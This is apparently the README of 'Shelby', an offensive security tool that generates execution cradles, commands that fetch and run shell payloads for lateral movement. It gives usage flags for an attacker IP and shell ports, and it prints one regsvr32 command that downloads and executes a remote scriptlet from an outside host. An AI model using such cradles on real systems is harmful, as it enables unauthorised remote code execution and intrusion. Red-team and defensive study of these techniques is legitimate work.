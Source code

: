 <p align="center">
  <img alt="By Order of the Peaky Blinders" src="https://i.imgur.com/SDsyM4r.png" height="140" border-radius="50%" />
  <p align="center">
    <a href="https://github.com/ad-995/shelby/releases/latest"><img alt="Release" src="https://img.shields.io/github/release/ad-995/shelby.svg?style=flat-square"></a>
    <a href="https://github.com/ad-995/shelby/blob/master/LICENSE"><img alt="Software License" src="https://img.shields.io/badge/license-MIT-brightgreen.svg?style=flat-square"></a>
    <a href="https://github.com/ad-995/shelby/issues"><img alt="GitHub issues" src="https://img.shields.io/github/issues/ad-995/shelby.svg?style=flat-square"></a>
    </p>
</p>

<h5 align="center"><i>Execution Cradle Generation!</i></h5>

`Shelby` is a Execution Cradle Generator inspired by [PoshC2](https://github.com/nettitude/PoshC2/blob/master/poshc2/server/Payloads.py) and their `PoshC2_Project/quickstart.txt` documentation. 

The aim of this project is to automatically generate several commonly used Execution Cradles in the hopes of lateral movement. 

***

## Introduction
Purpose

## Shells
The available shells

## Cradles
The available cradles

## Modularity
Adding to Shelby

## Example
Below is an example output:
![Shelby Output](https://i.imgur.com/cQPOSOC.png)


## Usage
```
usage: shelby.py [-h] -i  [-w] [-p] [-d]

Giver of shells

optional arguments:
  -h, --help            show this help message and exit
  -i , --ip-address     Attacker IP Address
  -p , --cradle-port    Port for receiving shells
  -w , --web-delivery   Port for serving shells
  -d , --directory      Directory for generated payloads
```

There are some important things to note here:
- `--ip-address`: The IP Address that the `shells` will be coming back to.
- `--cradle-port`: The Port that the `shells` will be coming back to.
- `--web-delivery`: The Port that the `cradles` will use to retrieve the `shell`.
- `--directory`: The Directory in which all the `cradles` and `shells` will be saved to. As well as the `cradle_commands.txt` file.

The `cradle_commands.txt` file contains all the Execution Cradle commands. For example:

```
regsvr32:
regsvr32 /s /n /u /i:http://10.10.11.58:80/sctlvjzqylbdzdl scrobj.dll
```

As more Execution Cradles are added, the format will be the same.:

```
Method:
Cradle Command
```

Finally, the easiest usecase here is to serve the `./web_delivery` directory with `python -m SimpleHTTPServer 80`. 

A project by [mez-0](https://github.com/mez-0) & [michaelranaldo](https://github.com/michaelranaldo)